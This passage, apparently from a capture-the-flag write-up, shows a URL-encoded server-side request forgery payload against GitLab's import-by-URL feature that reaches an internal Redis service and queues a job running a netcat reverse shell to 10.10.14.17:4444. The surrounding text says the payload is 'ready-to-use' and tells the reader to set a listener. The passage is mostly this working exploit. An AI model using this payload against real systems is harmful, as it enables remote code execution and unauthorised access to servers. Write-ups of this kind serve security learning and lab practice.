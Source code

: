 ```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/A%0A%20multi%0A%20sadd%20resque%3Agitlab%3Aqueues%20system_hook_push%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem_hook_push%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open(%5C%27%7Cnc%2010.10.14.17%204444%20-e%20%2Fbin%2Fbash%20%5C%27).read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A%20exec%0A%20exec%0A/elleuch.git

```

So now we have a ready-to-use payload, let's back to the web page to see where we're gonna throw it

<img src="repo.png" style="filter: drop-shadow(0 0 0.75rem crimson);">

And yeah! We can import projects by URLs, Exactly what we needed

Let's use our payload and set a listener and see if we get a shell

<img src="rev1.png" style="filter: drop-shadow(0 0 0.75rem crimson);">
